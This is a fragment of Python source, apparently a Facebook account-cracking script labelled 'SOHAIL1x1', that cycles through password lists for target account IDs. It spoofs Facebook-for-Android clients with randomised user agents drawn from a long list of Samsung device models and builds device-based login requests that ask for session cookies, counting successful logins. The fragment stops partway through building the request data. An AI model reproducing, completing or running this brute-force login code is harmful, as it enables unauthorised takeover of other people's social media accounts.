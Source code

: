 		sys.stdout.flush()
	
	except:
		pass
def apix(ids,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {"adid": "9e0f3002-43fc-4358-89f1-5622b403d502",
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source":"device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",